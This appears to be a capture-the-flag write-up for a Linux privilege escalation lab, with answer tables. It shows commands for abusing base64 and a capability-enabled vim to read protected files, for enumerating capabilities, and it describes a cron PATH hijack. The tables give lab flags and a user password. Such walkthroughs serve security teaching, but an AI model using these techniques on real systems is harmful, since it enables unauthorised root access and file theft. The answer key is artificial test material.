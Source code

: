 > reading the flag3.txt file using base64
```
base64 /home/ubuntu/flag3.txt | base64 --decode
```


| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Which user shares the name of a great comic book writer ? | gerryconway |
| What is the password of user2 ? | Password1 |
| What is the content of the flag3.txt file ? | THM-3847834 |


## Privilege Escalation : Capabilities

> Machine IP : `10.10.93.55`

> finding the set capabilities 
```
getcap -r / 2>/dev/null
```
> finding the flag4.txt
```
find / -type f -name flag4.txt 2>/dev/null
```
> reading the flag4.txt 
```
/home/karen/vim /home/ubuntu/flag4.txt
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| How many binaries have set capabilities ? | 6 |
| What other binary can be used through its capabillities ? | view |
| What is the content of the flag4.txt file ? | THM-9349843 |


## Privilege Escalation : Cron Jobs

> Machine IP : `10.10.215.9`

> reading the crontab 
```
cat /etc/crontab

```

### If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.

